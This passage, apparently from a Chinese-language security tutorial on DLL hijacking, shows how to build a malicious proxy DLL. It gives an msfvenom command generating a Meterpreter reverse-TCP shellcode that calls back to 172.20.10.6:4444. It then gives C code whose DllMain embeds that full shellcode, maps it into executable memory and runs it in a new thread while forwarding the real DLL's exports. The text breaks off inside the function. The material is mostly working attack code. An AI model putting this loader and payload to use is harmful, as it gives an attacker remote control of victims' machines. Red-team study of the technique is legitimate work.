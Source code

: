 生成 shellcode：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.20.10.6 -b '\xfc\xe8' lport=4444 -f c
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODtzTxCD2DBbTsxZicFKnPfTN7s0iaSBjmLZpPquV8cCwPSQBrRrgZNM8V8yT2PfVxTYYBlBTlib4bW0w/640?wx_fmt=png)

生成 dll：

```
#include "pch.h"
#include "windows.h"
//开始转发，将函数方法转发
//导出函数
#pragma comment(linker,"/EXPORT:add=testdll.add,@1")
#pragma commnet(linker,"/EXPORT:message=testdll.message,@2")
//入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
        unsigned char buf[] =
            "\x48\x31\xc9\x48\x81\xe9\xc0\xff\xff\xff\x48\x8d\x05\xef\xff"
            "\xff\xff\x48\xbb\x66\x9a\x22\x85\x4f\xee\xee\xb7\x48\x31\x58"
            "\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x9a\xd2\xa1\x61\xbf\x06"
            "\x22\xb7\x66\x9a\x63\xd4\x0e\xbe\xbc\xe6\x2e\xab\xf0\xd3\x2a"
            "\xa6\x65\xe5\x06\xd2\xa9\xd7\x57\xa6\x65\xe5\x46\xd7\x13\x4c"
            "\x07\x65\x9c\xe7\x2e\x95\x95\xcf\x05\xa6\xdf\x77\xca\xa6\x43"
            "\xf9\x4d\xc2\xce\xf6\xa7\x53\x2f\xc4\x4e\x2f\x0c\x5a\x34\xdb"
            "\x73\xcd\xc4\xbc\xce\x3c\x24\xa6\x6a\x84\x9f\x88\x6f\xcf\x7e"
            "\x91\x20\x8a\xca\x9c\xee\xb7\x66\x11\xa2\x0d\x4f\xee\xee\xff"
            "\xe3\x5a\x56\xe2\x07\xef\x3e\x3c\x2e\x82\x72\xc1\xc4\xae\xce"
            "\xfe\x67\x4a\xc1\xd3\x07\x11\x27\xf6\xed\xae\xaa\xc8\x7e\x27"
            "\xa6\xb6\xb0\xd2\x13\x45\xe3\xaf\x2f\x7e\x6b\xdb\x23\x44\x77"
            "\x0e\x9b\x46\x2a\x99\x6e\xa1\x47\xab\xd7\x66\x13\x42\x7a\xc1"
            "\xc4\xae\xca\xfe\x67\x4a\x44\xc4\xc4\xe2\xa6\xf3\xed\xda\x3e"
            "\xcc\x4e\x3e\xaf\x3c\x62\x12\x63\xdd\x07\xef\x3e\xf6\x3e\xc4"
            "\x7b\xdf\x0e\xb6\xaf\xee\x27\xc0\x6a\x06\xa3\xce\xaf\xe5\x99"
            "\x7a\x7a\xc4\x16\xb4\xa6\x3c\x74\x73\x69\x7a\xb0\x11\xb3\xfe"
            "\xd8\xed\x51\xb7\x10\xdd\xdc\xb7\x66\xdb\x74\xcc\xc6\x08\xa6"
            "\x36\x8a\x3a\x23\x85\x4f\xa7\x67\x52\x2f\x26\x20\x85\x5e\xb2"
            "\x42\xa3\x6c\x9c\x63\xd1\x06\x67\x0a\xfb\xef\x6b\x63\x3f\x03"
            "\x99\xc8\xb0\x99\x4f\x6e\x0c\xa5\x86\xef\xb6\x66\x9a\x7b\xc4"
            "\xf5\xc7\x6e\xdc\x66\x65\xf7\xef\x45\xaf\xb0\xe7\x36\xd7\x13"
            "\x4c\x02\xdf\x2e\xff\x99\x5a\x6a\x0c\x8d\xa6\x11\x77\x2e\x13"
            "\xe3\xc4\xf5\x04\xe1\x68\x86\x65\xf7\xcd\xc6\x29\x84\xa7\x27"
            "\xc2\x6e\x0c\xad\xa6\x67\x4e\x27\x20\xbb\x20\x3b\x8f\x11\x62"
            "\xe3\x5a\x56\x8f\x06\x11\x20\xc2\x83\x72\xb1\x85\x4f\xee\xa6"
            "\x34\x8a\x8a\x6a\x0c\xad\xa3\xdf\x7e\x0c\x9e\x63\xdd\x07\x67"
            "\x17\xf6\xdc\x98\xfb\x4d\x10\x11\x3b\x34\x9e\x9a\x5c\xd0\x07"
            "\x6d\x2a\x97\x38\x13\xd4\xef\x0f\xaf\xb7\xdf\x66\x8a\x22\x85"
            "\x0e\xb6\xa6\x3e\x94\xd2\x13\x4c\x0e\x54\xb6\x13\x35\x7f\xdd"
            "\x50\x07\x67\x2d\xfe\xef\x5d\x6f\xb4\x86\xa7\x67\x47\x2e\x13"
            "\xf8\xcd\xc6\x17\xaf\x0d\x64\x43\xea\xda\xb0\x3b\x6d\x4f\x66"
            "\xe7\x0a\xdd\x0e\xb9\xb7\xdf\x66\xda\x22\x85\x0e\xb6\x84\xb7"
            "\x3c\xdb\x98\x8e\x60\xe1\xde\x48\xb3\xcd\x7b\xc4\xf5\x9b\x80"
            "\xfa\x07\x65\xf7\xcc\xb0\x20\x07\x8b\x99\x65\xdd\xcd\x4e\x2d"
            "\xa6\x9e\xa0\xd2\xa7\x73\x3a\x5a\xaf\x48\x81\xc2\x48\x85\x16"
            "\xa7\x29\x75\x96\x2f\x80\xd3\xb0\x3b\xee\xb7";
        size_t size = sizeof(buf);
        char* inject = (char*)VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        memcpy(inject, buf, size);
        CreateThread(0, 0, (LPTHREAD_START_ROUTINE)inject, 0, 0, 0);
```